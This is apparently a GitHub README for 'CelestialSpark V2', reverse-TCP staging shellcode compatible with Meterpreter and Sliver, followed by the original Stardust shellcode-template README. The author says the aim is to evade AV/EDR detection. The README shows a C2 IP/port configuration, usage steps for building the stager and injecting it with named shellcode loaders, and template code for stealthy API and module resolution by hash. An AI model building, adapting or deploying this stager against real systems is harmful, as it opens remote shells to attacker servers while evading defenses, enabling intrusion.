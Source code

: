 # CelestialSpark V2

A modern 64-bit position independent meterpreter and Sliver compatible reverse_TCP Staging Shellcode based on Cracked5piders Stardust

```c++
#include <common.h>
#include <constexpr.h>
#include <resolve.h>

using namespace stardust;

// Define IP adress of your C2 Stager
#define IP_STR  "10.10.10.10"
// Define PORT 443 of your C2 Stager
#define PORT 443
```

## Why
I wanted to improve my understanding of position independent Shellcode, plus... My Meterpreter reverse_TCP Stager gets caught by a lot of AV/EDRs and I was hoping to somehow get around the IoCs the 15 year old Meterpreter reverse_TCP Shellcode generated by msfvenom.
Inspirations were:
- https://github.com/SherifEldeeb/TinyMet
- https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_reverse_tcp.asm

## How does it work
- not existing HTONS and HTONL functions have been hardcoded
- custom inet_addr function was rewritten and implemented in main.cc
- Socket creation and interaction functions have been imported from ws2_32.dll
- Meterpreter Staging Logic hase been copied from the original project and TinyMet

## Usage
- Git clone
- change IP and Port in main.cc
- disable the messagebox right before the Stage2 shellcode execution (if it bothers you)
- make
- Use your favourite Shellcode Loader/Injector. I Successfully tested:
    - https://github.com/Cipher7/ChaiLdr
    - https://github.com/florylsk/ExecIT
    - https://github.com/3xpl01tc0d3r/ProcessInjection
    - the original Stardust Loader and Stomper written by [Cracked5pider](https://github.com/Cracked5pider)

End of CelestialSpark
# Original Readme from here

# Stardust

A modern and easy to use 32/64-bit shellcode template.

- raw strings 
- C++20 project 
- uses compile time hashing with fnv1a for both function and module resolving  

### Basic Usage

resolving modules from PEB using `resolve::module`:
```c++
if ( ! (( ntdll.handle = resolve::module( expr::hash_string<wchar_t>( L"ntdll.dll" ) ) )) ) {
    return;
}

if ( ! (( kernel32.handle = resolve::module( expr::hash_string<wchar_t>( L"kernel32.dll" ) ) )) ) {
    return;
}
```

resolving function apis using either `RESOLVE_API` macro or `resolve::api` function:
```c++
const auto user32 = kernel32.LoadLibraryA( symbol<const char*>( "user32.dll" ) );

decltype( MessageBoxA ) * msgbox = RESOLVE_API( reinterpret_cast<uintptr_t>( user32 ), MessageBoxA );

msgbox( nullptr, symbol<const char*>( "Hello world" ), symbol<const char*>( "caption" ), MB_OK );
```
The `RESOLVE_API` is a wrapper around `resolve::api` to automatically hashes the function name and cast the function pointer to the function type.

string hashing for both UTF-8 and UTF-16 using the compile time `expr::hash_string` function:
```c++
auto user32_hash      = expr::hash_string<wchar_t>( L"user32.dll" );
auto loadlibrary_hash = expr::hash_string<char>( "LoadLibraryA" );
```

raw strings support for both 32/64-bit by using the `symbol` function: 
```c++
auto caption_string = symbol<const char*>( "hello from stardust" );

user32.MessageBoxA( nullptr, caption_string, symbol<const char*>( "message title" ), MB_OK );
```

easy to add new apis and modules to the instance. Under `include/common.h` the following entry has to be made:
```c++
class instance {
    ...
    
    struct
    {
        uintptr_t handle; // base address to user32.dll

        struct {
            D_API( MessageBoxA );
            // more entries can be added here
        };
    } user32 = {
        RESOLVE_TYPE( MessageBoxA ),
        // more entries can be added here 
    };
    
    ...
```
while the ``src/main.cc`` should resolve the base address of user32 and resolve the api pointer:
```c++

declfn instance::instance(
    void
) {
    ...
    //
    // resolve user32.dll from PEB if loaded 
    if ( ! (( user32.handle = resolve::module( expr::hash_string<wchar_t>( L"user32.dll" ) ) )) ) {
        return;
    }

    //
    // automatically resolve every entry imported
    // by user32 from the structure 
    RESOLVE_IMPORT( user32 );
    ...
}

```

semi friendly debugging capabilities via DbgPrint. The project althought needs to be compiled in debug mode by specifying ``make debug``. Usage: 
```c++
const auto user32 = kernel32.LoadLibraryA( symbol<const char*>( "user32.dll" ) );

if ( user32 ) {
    DBG_PRINTF( "oh wow look we loaded user32.dll -> %p\n", user32 );
} else {
    DBG_PRINTF( "okay something went wrong. failed to load user32 :/\n" );
}

DBG_PRINTF( "running from %ls (Pid: %d)\n",
    NtCurrentPeb()->ProcessParameters->ImagePathName.Buffer,
    NtCurrentTeb()->ClientId.UniqueProcess );

DBG_PRINTF( "shellcode @ %p [%d bytes]\n", base.address, base.length );
```

### Building 

Build in release mode: 
```shell
$ make                                                                                                                                                                                                                                                                                  20:17:26
-> compiling src/main.cc to main.x64.obj
-> compiling src/resolve.cc to resolve.x64.obj
compiling x64 project
/usr/bin/x86_64-w64-mingw32-ld: bin/stardust.x64.exe:.text: section below image base
-> compiling src/main.cc to main.x86.obj
-> compiling src/resolve.cc to resolve.x86.obj
compiling x86 project
/usr/bin/i686-w64-mingw32-ld: bin/stardust.x86.exe:.text: section below image base
$ ll bin                                                                                                                                                                                                                                                                                20:57:10
drwxr-xr-x spider spider 4.0 KB Thu Mar 13 20:57:10 2025 obj
.rw-r--r-- spider spider 752 B  Thu Mar 13 20:57:10 2025 stardust.x64.bin
.rw-r--r-- spider spider 672 B  Thu Mar 13 20:57:10 2025 stardust.x86.bin
```

Build in debug mode: 
```shell
$ make debug                                                                                                                                                                                                                                                                            20:57:14
-> compiling src/main.cc to main.x64.obj
-> compiling src/resolve.cc to resolve.x64.obj
compiling x64 project
/usr/bin/x86_64-w64-mingw32-ld: bin/stardust.x64.exe:.text: section below image base
-> compiling src/main.cc to main.x86.obj
-> compiling src/resolve.cc to resolve.x86.obj
compiling x86 project
/usr/bin/i686-w64-mingw32-ld: bin/stardust.x86.exe:.text: section below image base
$ ll bin                                                                                                                                                                                                                                                                                20:58:13
drwxr-xr-x spider spider 4.0 KB Thu Mar 13 20:58:13 2025 obj
.rw-r--r-- spider spider 1.2 KB Thu Mar 13 20:58:13 2025 stardust.x64.bin
.rw-r--r-- spider spider 1.1 KB Thu Mar 13 20:58:13 2025 stardust.x86.bin
```

## Demo
x64:
![x64](./static/stomper.x64.png)

x86:
![x86](./static/stomper.x86.png)
